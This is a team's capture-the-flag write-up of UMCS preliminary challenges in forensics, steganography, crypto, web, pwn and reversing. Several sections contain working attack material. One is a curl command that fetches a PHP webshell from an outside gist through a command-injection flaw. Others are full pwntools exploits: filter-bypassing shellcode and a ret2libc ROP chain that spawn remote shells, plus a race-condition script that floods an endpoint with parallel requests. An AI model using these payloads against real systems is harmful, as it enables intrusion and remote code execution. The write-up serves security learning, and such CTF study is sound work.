# **Group : $+€@d¥G@Ng**

## **Forensic: Hidden in Plain Graphic**

First, I open the PCAP file with Wireshark and while scanning through the traffic, I notice a tcp packet which seems to be suspicious because of the large length of it.   
Thus, I clicked on it to check and noticed that there’s magic bytes of PNG file. Then, I tried to extract the hex and convert it into PNG and here’s the PNG file extracted.  

  

I tried to decode the PNG file with online tools first to save time and luckily it works.   
Online tool: [https://www.aperisolve.com/12dc4632c2fb6cd620988d3349e9639d](https://www.aperisolve.com/12dc4632c2fb6cd620988d3349e9639d)   
The flag found at the Zsteg part:

## **Steganography: Broken**

Since the mp4 is broken, I try to fix it using an online tool first, and it works. After repair with an online tool, the flag is shown in the video.  
Online tool: [https://repair.easeus.com/](https://repair.easeus.com/)   



## **Steganography: Hotline Miami**

[https://github.com/umcybersec/umcs\_preliminary/tree/main/stego-Hotline\_Miami](https://github.com/umcybersec/umcs_preliminary/tree/main/stego-Hotline_Miami) 

****

Given three files from this question, I saw that in [readme.txt](https://raw.githubusercontent.com/umcybersec/umcs_preliminary/refs/heads/main/stego-Hotline_Miami/readme.txt) is given the flag format.  
  
Next, I found that the wav file must be hidden, so I opened the “Sonic Visualizer” and added a layer for the spectrogram with all channels mixed. I found that the information or keyword is hidden in the wav file shown on the figure below.  


So the verb will be “WATCHING” and the year will be “1989”. Then I go to use an online tool to see the information from the [png file](https://github.com/umcybersec/umcs_preliminary/blob/main/stego-Hotline_Miami/rooster.jpg). [https://www.aperisolve.com/81954be3cdc998e92aeab90a8a228a18](https://www.aperisolve.com/81954be3cdc998e92aeab90a8a228a18)

Notice that the  end of the  file contains a name called RICHARD.  


Lastly, I guess the word for the “Be” which I put straight forward is “IS”. I try to submit it then boom successfully get the flag.

**Flag: umcs{RICHARD\_IS\_WATCHING\_1989}**

## **Web: Healthcheck**

[https://github.com/umcybersec/umcs\_preliminary/tree/main/web-healthcheck](https://github.com/umcybersec/umcs_preliminary/tree/main/web-healthcheck) 

  
First of all, I reviewed the source code and found that the source code does some good practice in secure coding but it is not secure enough because of using `shell_exec()` function which is vulnerable to Remote Code Execution (RCE). So I input the `curl https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php -o shell.php` command to download the [shell script](https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/c871f130a12e97090a08d0ab855c1b7a93ef1150/easy-simple-php-webshell.php) given from online. After that, I browse the shell script page and `cat` the flag content.   

Tadaa, the flag shown from the figure above.

Flag: umcs{n1c3\_j0b\_ste4l1ng\_myh0p3\_4nd\_dr3ams}

## **Web: Straightforward**

**** 
****

On this challenge I downloaded the zip provided file and checked on app.py code to get the overview of how the logical works.There was a reveal of few endpoints such as POST /register to creates a new user, POST /claim to claims a daily reward, GET /dashboard to shows current balance, POST /buy\_flag to attempts to redeem the flag. From inspecting there I came to understand that the website each user can claim a daily bonus and claiming multiple bonus is the bug. So, I created a bash script using ***curl*** and ***xargs*** to register as a new user, then started to spam /claim points with many requests before the backend checks and prevents duplicate claims. At first I managed to increase the balance with the script  but looking back at its logic , I understand that SET balance \= balance \- 3000 WHERE username \=? , it requires to minus 3000 from the existing balance then only it would return with flag.html. So updated the script as below to capture the flag.   



```bash
\#\!/bin/bash  
USER="ctfuser$RANDOM"  
COOKIE\_FILE="cookies.txt"  
BASE\_URL="http://159.69.219.192:7859"

echo "\[\*\] Registering user: $USER"

curl \-s \-c "$COOKIE\_FILE" \-X POST "$BASE\_URL/register" \\  
     \-d "username=$USER" \> /dev/null

if \[ $? \-ne 0 \]; then  
    echo "Registration failed"  
    exit 1  
fi

echo "\[\*\] Claiming daily bonus multiple times in parallel..."

seq 1 20 | xargs \-P20 \-I{} curl \-s \-b "$COOKIE\_FILE" \-X POST "$BASE\_URL/claim" \> /dev/null

echo "\[\*\] Waiting for DB writes to finish..."  
sleep 2

echo "\[\*\] Checking balance..."  
BALANCE=$(curl \-s \-b "$COOKIE\_FILE" "$BASE\_URL/dashboard" | grep \-oP '\\d{4,}')  
echo "\[\*\] Current balance: $BALANCE"

echo "\[\*\] Attempting to redeem flag..."  
RESPONSE=$(curl \-s \-b "$COOKIE\_FILE" \-X POST "$BASE\_URL/buy\_flag")

\# Detect UMCS-style flags  
if echo "$RESPONSE" | grep \-iq "UMCS"; then  
    echo "Flag found\!"  
    echo "$RESPONSE" | grep \-oE 'UMCS\\{.\*?\\}'  
else  
    echo "Flag not found. Current balance insufficient."  
fi
```

Upon running through the bash script flag was found. So basically, the vulnerability over this challenge lacks concurrency control as multiple requests simultaneously sent to /claim. Each request checks if the user already claimed a bonus but before the server can update the state "use", other requests enter in,making receiving more bonus than intended. I came to understand that this is a TOCTOU vulnerability which is a time of check and time of use vulnerability. To prevent this kind of vulnerability,lock the database row or use transactions to avoid simultaneous writes,track requests per session and apply strict rate limiting,implement server-side timestamp checks for bonus claims

**Flag: umcs{th3\_s0lut10n\_1s\_pr3tty\_str41ghtf0rw4rd\_too\!}**

## **Cryptography: Gist of Samuel**



Hint: [https://gist.github.com/umcybersec/55bb6b18159083cf811de96d8fef1583](https://gist.github.com/umcybersec/55bb6b18159083cf811de96d8fef1583)

gist\_of\_samuel.txt : 
``` 
🚂🚂🚂🚂🚆🚂🚆🚂🚋🚂🚆🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚂🚆🚂🚂🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚋🚂🚋🚋🚆🚋🚋🚋🚆🚂🚂🚋🚆🚂🚋🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚋🚋🚂🚆🚂🚋🚂🚆🚂🚂🚆🚋🚋🚂🚂🚆🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚆🚋🚋🚋🚋🚋🚆🚂🚋🚋🚋🚋🚆🚂🚂🚋🚋🚋🚆🚋🚂🚂🚆🚋🚋🚋🚋🚋🚆🚂🚋🚆🚂🚋🚋🚋🚋🚆🚂🚂🚋🚂🚆🚂🚂🚋🚂🚆🚂🚂🚋🚂🚆🚂🚋🚆🚋🚂🚋🚂🚆🚂🚂🚂🚂🚋🚆🚂🚂🚋🚋🚋🚆🚋🚂🚂🚆🚋🚂🚂🚂🚂🚆🚂🚋🚆🚂🚋🚆🚂🚆🚋🚋🚋🚋🚋🚆🚋🚋🚋🚋🚋🚆🚋🚂🚋🚂🚆🚂🚂🚂🚂🚂🚆🚂🚂🚂🚂🚋🚆🚋🚋🚋🚋🚋🚆🚋🚋🚂🚂🚂🚆🚋🚋🚋🚂🚂🚆🚂🚋🚆🚋🚂🚂🚆🚂🚂🚂🚋🚋🚆🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚂🚂🚆🚂🚋🚆🚋🚋🚆🚂🚂🚋🚆🚂🚆🚂🚋🚂🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚋🚂🚆🚂🚆🚂🚋🚆🚂🚋🚂🚂🚆🚂🚋🚂🚂🚆🚋🚂🚋🚋🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚋🚂🚂🚆🚂🚂🚆🚋🚂🚋🚆🚂🚆🚂🚂🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚋🚆🚂🚋🚂🚆🚂🚋🚆🚂🚂🚆🚋🚂🚆🚋🚋🚂🚂🚋🚋🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚋🚆🚋🚂🚆🚋🚂🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚂🚂🚂🚆🚂🚂🚆🚂🚂🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚂🚋🚂🚆🚂🚋🚆🚂🚂🚂🚋🚆🚋🚋🚋🚆🚂🚋🚂🚆🚂🚂🚆🚋🚆🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚋🚂🚆🚂🚂🚋🚆🚋🚋🚆🚋🚂🚂🚂🚆🚂🚆🚂🚋🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚂🚂🚆🚂🚂🚂🚆🚂🚂🚂🚂🚂🚂🚂🚆🚋🚋🚋🚂🚂
```

Based on this sequence, I assume it is morse code where   
🚂 represents ' **.** '   
🚋 represents ' **\-** '  
🚆 represents ' **space** '

So when decode it, the output is:   
`HERE.......IS.......YOUR.......PRIZE.......E012D0A1FFFAC42D6AAE00C54078AD3E.......SAMUEL.......REALLY.......LIKES.......TRAIN,.......AND.......HIS.......FAVORITE.......NUMBER.......IS.......8`

After consulting ChatGPT, getting know that E012D0A1FFFAC42D6AAE00C54078AD3E is a hash number, meanwhile combining with the hint given, the URL link is then replaced with this hash number.  
  
Again, we get these unreadable blocks. At first, I thought it would be ciphertext that needed to be decrypted to get the plaintext by using [Lingojam](https://lingojam.com/%E2%96%88%E2%96%88%E2%96%88%E2%96%88Translator) but it shows more unreadable characters as shown below.  


Well, it was too overthinking, let’s go back to the clues given: `SAMUEL.......REALLY.......LIKES.......TRAIN,.......AND.......HIS.......FAVORITE.......NUMBER.......IS.......8.` After searching, the only decryption method named [Rail Fence (Zig-Zag) Cipher](https://www.dcode.fr/rail-fence-cipher) is related to trains. Therefore, after decrypting it by using key=8, we will get the rearranged blocks. Download the decrypted blocks in the notepad and adjust the widget until it shows the text below: WILLOWTREECAMPSITE.   
****  
Flag: umcs{willow\_tree\_campsite}

## **PWN: Babysc**

[https://github.com/umcybersec/umcs\_preliminary/tree/main/pwn-babysc](https://github.com/umcybersec/umcs_preliminary/tree/main/pwn-babysc) 

****

From the source code given, the `vuln()` function shows that it reads 4096 bytes from the input and checks the bad code received which are `0x80cd` (int 0x80), `0x340f` (sysenter), and `0x050f` (syscall) to prevent syscall and executes from the input. So I am using the [pwntools](https://github.com/Gallopsled/pwntools) library given from the online to make it easily implement my binary exploitation. Lastly, the python script is on the below:

```python
from pwn import *

exe = './babysc'
elf = context.binary = ELF(exe, checksec=True)
#context.log_level = 'DEBUG'
context.arch='amd64'

sh = remote('34.133.69.112', 10001)
#sh = process(exe)

forbidden_pairs = [b'\x0f\x05', b'\x0f\x34', b'\xcd\x80']

shellcode = '''
    /* Get address of placeholder using GAS RIP-relative syntax */
    lea rbx, [rip + placeholder]
    /* Write forbidden syscall bytes DYNAMICALLY (0x0f 0x05) */
    mov byte ptr [rbx], 0x0f
    mov byte ptr [rbx + 1], 0x05
    /* Set up execve("/bin/sh", 0, 0) */
    xor rsi, rsi
    push rsi
    mov rdi, 0x68732f2f6e69622f  /* /bin//sh */
    push rdi
    mov rdi, rsp
    xor rdx, rdx
    mov eax, 0x3b               /* execve syscall number */
    jmp rbx                     /* Jump to modified code */
placeholder:
    .byte 0x90, 0x90            /* Placeholder for syscall */  
'''

sc = asm(shellcode)

for i in range(len(sc) - 1):
    pair = shellcode[i:i+2]  
    if pair in forbidden_pairs:
        print(f'BAD BYTE --> 0x{byte:02x}')  
        print(f'ASCII --> {chr(byte)}')

sh.recvline()
sh.sendline(sc.ljust(0x1000, b'\x90'))
sh.interactive()
```

The shellcode given to the binary will:

1. Calculate the address of the placeholder at runtime  
2. Write the forbidden syscall bytes dynamically  
3. Execute /bin/sh using the execve syscall

After that, I execute the python script I successfully enter to the instance given then I use `cat /flag` (based on the Dockerfile given) to get the flag content. Boom flag found. 



Flag: umcs{shellcoding\_78b18b51641a3d8ea260e91d7d05295a}

## **PWN: Liveleak**

From this question, I found the given “libc” library and “ld” library so I found the online tool called “[pwninit](https://github.com/io12/pwninit)” to patch the given binary to make the binary run using the given “libc” library. Then, I try to decompile the binary to understand the source code.

  
Content of `main` function

  
Content of `vuln` function

Notice that, inside `vuln()` function it contains the vulnerability for buffer overflow attack because of using `fgets()` function but the size does not fit into the declared variable. So write the python script for the exploitation.

```python
from pwn import *

exe = ELF("./chall_patched")  
libc = ELF("./libc.so.6")  
rop = ROP(exe)

context.binary = exe

pop_rdi = rop.find_gadget(["pop rdi"])[0]  
ret = rop.find_gadget(["ret"])[0]  
puts_got = exe.got.puts  
puts_plt = exe.plt.puts  
vuln = exe.symbols.vuln

def conn():
    if args.LOCAL:  
        return gdb.debug([exe.path]) 
    else:
        return remote("34.133.69.112", 10007)

def main():  
    r = conn()

    # Leak puts@got.plt`  
    r.recvuntil(b"Enter your input: \n")
    payload = flat(
        b'A' * 72,      # Overflow buffer (64) + RBP (8)  
        pop_rdi,        # (1st argument for `puts`)   
        puts_got,       # Address of `puts` in GOT (to leak)  
        puts_plt,       # Call `puts` to print the leaked address  
        vuln,           # Return to vuln() for second payload
        p64(ret) * 3    # Align stack for vuln() return
    )[:127]             # Trim to 127 bytes (exclude NULL)  
    r.send(payload)

    # Parse leaked address  
    leaked_puts = u64(r.recvline().strip().ljust(8, b'\x00'))  
    libc.address = leaked_puts - libc.symbols.puts  
    success(f"Libc base: {hex(libc.address)}")

    # Send shell payload`  
    r.recvuntil(b"Enter your input: \n")
    bin_sh = next(libc.search(b"/bin/sh\x00"))  
    system = libc.symbols.system  
    payload = flat( 
        b'A' * 72,  
        ret,                # Align stack to 16 bytes (ABI requirement)`  
        pop_rdi,            # (1st argument for `system`)      
        bin_sh,             # Address of "/bin/sh" string in libc`  
        system,             # Call `system` ``  
        p64(0xdeadbeef)     # Optional exit (not critical)`  
    )[:127]                # Trim to 127 bytes`  
    r.send(payload)

    r.interactive()

if __name__ == "__main__":  
    main()
```

The Script will:

1. Leak Libc Address by using `puts` to print out the address of `puts` function and calculate it to find the `libc` base address  
2. Execute `system("/bin/sh")` using leaked libc's address.

After that, I execute the python script I successfully enter to the instance given then I use `cat /flag` (based on the Dockerfile given) to get the flag content. Boom flag found. 

  
  

Flag: umcs{GOT\_PLT\_8f925fb19309045dac4db4572435441d}

# **Reverse Engineering: htpp-server**

First I check if the given file belongs to which type using the `file` command. 

Notice that this is a ELF 64-bit executable file so I opened up with Ghidra to decompile it to view the source code.   
  
Entry Function for the program  
  
Content of FUN\_001013a9

****  
Content of FUN\_0010154b  
The pictures above show that the program is started with the c runtime library and calling the main function which is **FUN\_001013a9**. Then, I roughly viewed the code and found that the program listens to an 8080 port with a specific address and creates a subprocess to run the function named **FUN\_0010154b.** After that, I found that the **strstr()** function is used to find the string input that contains “**GET /goodshit/umcs\_server HTTP/13.37**”. Then I connect to the machine using the `nc` command and input the string given. Boom the flag will be shown.



umcs{http\_server\_a058712ff1da79c9bbf211907c65a5cd}

## **Web: Microservices （SOLVE AFTER PRELIMINARY ROUND END）**

****

****

Content of flag-api Dockerfile



Content of flag-api nginx.conf 

After viewing the files from the folder flag-api I found that the flag-api instance is exposing the port 5555 to public and another nginx configuration was written to allow Cloudflare IPs to access it. So I opened up my cloudflare account and created a worker with a “Hello world” template. Then I edit the code from IDE and preview it. Boom, the flag has been found.

****
Source code for worker.js



Flag: **UMCS{w0w\_1m\_cur1ous\_on\_h0w\_y0u\_g0t\_h3r3}**
